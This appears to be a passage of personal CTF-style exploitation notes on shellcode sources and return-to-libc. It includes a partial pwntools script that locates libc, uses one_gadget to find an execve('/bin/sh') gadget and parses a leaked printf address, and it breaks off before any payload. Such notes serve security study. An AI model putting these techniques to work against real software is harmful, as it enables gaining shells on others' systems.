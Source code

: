 

#### Shellcode

- Good website to find different shellcode:
    - [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

#### Return-to-Libc

- We will overwrite the EIP to call the system() library function and we will also pass what it should execute, in this example a buffer with "/bin/sh"
- Good explanation:
    - [https://www.youtube.com/watch?v=FvQYGAM1X9U&ab_channel=NPTEL-NOCIITM](https://www.youtube.com/watch?v=FvQYGAM1X9U&ab_channel=NPTEL-NOCIITM)
- Good example (go to 3:22:44):
    - [https://www.youtube.com/watch?v=uIkxsBgkpj8&t=13257s&ab_channel=freeCodeCamp.org](https://www.youtube.com/watch?v=uIkxsBgkpj8&t=13257s&ab_channel=freeCodeCamp.org)
    - [https://www.youtube.com/watch?v=NCLUm8geskU&ab_channel=BenGreenberg](https://www.youtube.com/watch?v=NCLUm8geskU&ab_channel=BenGreenberg)
- Get address for execve("/bin/sh")
    - `one_gadget <libc file>`

- If you already know the libc file and a location (ie. dont have to leak them...)
    
    ```python
    #!/bin/python3
    
    from pwn import *
    import os
    
    binaryName = 'ret2libc1'
    
    # get the address of libc file with ldd
    libc_loc = os.popen(f'ldd {binaryName}').read().split('\n')[1].strip().split()[2]
    
    # use one_gadget to see where execve is in that libc file
    one_gadget_libc_execve_out = [int(i.split()[0], 16) for i in os.popen(f'one_gadget {libc_loc}').read().split("\n") if "execve" in i]
    
    # pick one of the suitable addresses
    libc_execve_address = one_gadget_libc_execve_out[1]
    
    p = process(f'./{binaryName}')
    e = ELF(f'./{binaryName}')
    l = ELF(libc_loc)
    
    # get the address of printf from the binary output
    printf_loc = int(p.recvuntil('\n').rstrip(), 16)
    
    # get the address of printf from libc
    printf_libc = l.sym['printf']
    